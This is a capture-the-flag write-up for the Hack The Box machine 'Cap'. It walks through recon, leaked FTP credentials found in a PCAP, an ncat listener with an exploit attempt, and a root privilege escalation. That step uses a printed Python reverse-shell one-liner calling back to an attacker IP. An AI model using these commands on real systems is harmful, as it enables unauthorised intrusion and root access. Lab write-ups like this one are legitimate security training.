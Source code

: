 # Cap

## Recon
The [nmap scan](../resources/cap/nmap_scan) (`sudo nmap -A -T4 -p- 10.10.10.245`) showed only 3 open ports: 21, 22 & 80.

Both FTP and SSH were password protected so that was a no-go.
The web server was running on `gunicorn` but a search for vulnerabilities came up empty.
So I fired up BurpSuite, opened the browser and went to visit the website.

## Web Recon
Visiting the landing page of the web server showed that it was some kind of network info/security dashboard.
There were several different pages for checking:
- Network Status
- IP Config
- Security Snapshot (5 Second PCAP Analysis)

The last one caught my eye, so I tried it out.
After a 5 second pause it redirected me to a new URL (`/data/1`) which showed some statistics about the capture and a download for the file.

Opening up the file in wireshark showed very little activity - mainly just SYN/ACK requests between me and the server.

I then tried a few things on Burp:
- Checking data ids from 2-100
- Changing the request to HEAD, POST, PUT, DELETE

None of which yielded anything

Then I ran Dirbuster to see if it would find any hidden directories but that also came up empty.

After a long while I had a thought, and searched for `/data/0` and finally found something useful.
This page contained a PCAP file created by someone other than me.

I had a quick look over it and noticed that the web server was running on `Werkzeug/2.0.0`.
A quick google search found a vulnerability - https://www.exploit-db.com/exploits/43905

## Exploit

I downloaded the [python file](../resources/cap/exploit.py).

Started an ncat server:
```bash
nc -nlvp 4444
```

Ran the exploit:
```bash
python3 exploit.py 10.10.10.245 80 10.10.16.200 4444
```

Unfortunately this gave me a message saying that debugger (an essential part of the exploit) was disabled.

## Recon #2
I spent a very long time pouring through PCAP entries on WireShark, when finally I took a step back and realized the answer had been right in front of my face:

![pcap](../resources/cap/ftp_creds.png)

The PCAP had caught a user (nathan) logging into the FTP server and caught his credentials:
- Username - nathan
- Password - Buck3tH4TF0RM3!

Using this I was able to ftp into the server and find `user.txt`
```bash
kali@kali:~/workspace/htb$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
Buck3tH4TF0RM3!
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Aug 22 16:59 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (700.5775 kB/s)
ftp> 

^C
cat user.txt
5c1010aef5dae72457add38c76cd675f
```

## Privilage Escalation

Other retrieving (a fairly useless) [passwd file](../resources/cap/passwd) I was unable to find much else of use.
It then occurred to me that I could most likely use the same credentials to login via SSH - which I did.

Now that I had a shell a check my sudo privilages showed that I had none:
```bash
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

I then proceeded to run down multiple rabbit holes for a couple of hours, unable to find anything useful.

Finally a though occurred to me: In order to capture a PCAP the web code must have some kind of sudo privilages.
So I searched for the app and found it in `/var/www/html`, the main code was in `app.py`.

The code that captured the PCAP had some comments and some interesting commands I'd never seen before:
```python
# permissions issues with gunicorn and threads. hacky solution for now.
#os.setuid(0)
#command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
os.system(command)
#os.setuid(1000)
```

It appears that using `os.system` to run `python3 -c` and then run `os.setuid(0)` within that allows us to run system commands as root.

## PE Exploit

I started up an Ncat server:
```bash
nc -nlvp 4444
```

Then I replaced the `command` variable with a modified script that I found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python):
```python
command = f"""python3 -c 'import socket,os,pty;os.setuid(0);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.200",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'"""
os.system(command)
```

I also edited the file to run on port 8000 so that I could run a new version of the server.

I started up the new server (`python3 app.py`), visited `10.10.10.245:8000/capture` and was presented with a glorious root shell!

```bash
root@cap:/var/www/html$ cat /root/root.txt
9c7470c3ccfd10ab04d7d34058d27399
```





